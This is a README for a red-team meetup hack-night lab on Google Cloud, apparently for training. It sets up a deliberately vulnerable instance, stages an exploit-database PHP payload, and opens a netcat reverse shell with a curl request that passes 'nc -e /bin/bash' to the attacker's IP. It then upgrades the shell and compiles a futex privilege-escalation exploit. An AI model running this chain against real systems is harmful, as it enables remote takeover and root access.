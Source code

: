 # Launch Meetup and Hack Night

Refer to [Meetup page](https://www.meetup.com/redteamproject/events/259624820/) for details.

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) (yes, the name doesn't make sense; I'm reusing another workshop)
* [Setup script](setup.sh), launch from Cloud Shell
* [Blue Ansible playbook](blue.yml)
* [Red Ansible playbook](red.yml)

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/meetup.git
cd meetup/20190321
```

4. Run the setup script `./setup.sh`
5. SSH to the blue instance `gcloud compute ssh blue-1 --zone us-east4-a`
6. Update and install packages

```
sudo su -
yum update -y
yum install -y git ansible python-pip
```

7. Clone the `meetup`, `cyber-range-target`, and `exploit-curation` repos

```
git clone https://github.com/redteam-project/meetup
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Make this instance vulnerable to Shellshock and libfutex

```
ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. **EDIT** - this doesn't appear to work in GCE, so use your imagination.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
